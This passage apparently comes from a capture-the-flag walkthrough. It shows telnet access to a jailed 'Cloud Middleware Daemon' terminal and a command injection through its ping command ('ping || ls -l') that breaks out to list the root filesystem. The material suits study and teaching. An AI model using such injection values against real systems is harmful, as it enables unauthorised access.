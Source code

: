 ```
$ telnet 10.245.32.98
Trying 10.245.32.98...
Connected to 10.245.32.98.
Escape character is '^]'.
Debian GNU/Linux 7
? yOnEwsTortSm
                                                                                  
                             _____ _                 _                            
                            / ____| |               | |                           
                           | |    | | ___  _   _  __| |                           
                           | |    | |/ _ \| | | |/ _` |                           
                           | |____| | (_) | |_| | (_| |                           
                            \_____|_|\___/ \__,_|\__,_|                           
                __  __ _     _     _ _                                            
               |  \/  (_)   | |   | | |                                           
               | \  / |_  __| | __| | | _____      ____ _ _ __ ___                
               | |\/| | |/ _` |/ _` | |/ _ \ \ /\ / / _` | '__/ _ \               
               | |  | | | (_| | (_| | |  __/\ V  V / (_| | | |  __/               
               |_|  |_|_|\__,_|\__,_|_|\___| \_/\_/ \__,_|_|  \___|               
                    _____                                                         
                    |  __ \                                                       
                    | |  | | __ _  ___ _ __ ___   ___  _ __                       
                    | |  | |/ _` |/ _ \ '_ ` _ \ / _ \| '_ \                      
                    | |__| | (_| |  __/ | | | | | (_) | | | |                     
                    |_____/ \__,_|\___|_| |_| |_|\___/|_| |_|                     
                                         BY SYNERGISED CYBER CLOUD PTY. LTD.      
                                                                                  
   Cloud Middleware Daemon v0.31 - INtranet Jailed Enterprise Command Terminal    
                                                                                  
                                Available Commands                                
                help - Prints available commands. i.e this message                
                         ping <HOST> - Pings a given host                         
      squidstatus <DETAIL> - Display Squid Status. DETAIL:1=full, 0=minimal       
                             hello <NAME> - Say hello                             
                            quit - Exit and disconnect                            
                            exit - Exit and disconnect                            
                    hostname - Gets the cloud proxies hostname                    
 -------------------------------------------------------------------------------- 
                            Please enter your command                             
$
```

This gives us access to a restricted shell. Of course, the obvious goal here is to gain access to a proper shell, so we need to first test what we can do. To save you the trouble, the `ping` command is vulnerable to command chaining or whatever it's called.

```
$ ping || ls -l
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
total 80
drwxr-xr-x  2 root root  4096 Apr 18  2017 bin
drwxr-xr-x  3 root root  4096 Apr 18  2017 boot
-rw-------  1 root root     0 Apr 21  2017 dead.letter
drwxr-xr-x 13 root root  2960 Jul 10 16:01 dev
drwxr-xr-x 81 root root  4096 Jul 10 17:18 etc
drwxr-xr-x  3 root root  4096 Apr 18  2017 home
lrwxrwxrwx  1 root root    30 Apr 18  2017 initrd.img -> /boot/initrd.img-3.2.0-4-amd64
drwxr-xr-x 13 root root  4096 Apr 18  2017 lib
drwxr-xr-x  2 root root  4096 Apr 18  2017 lib64
drwx------  2 root root 16384 Apr 18  2017 lost+found
drwxr-xr-x  4 root root  4096 Apr 18  2017 media
```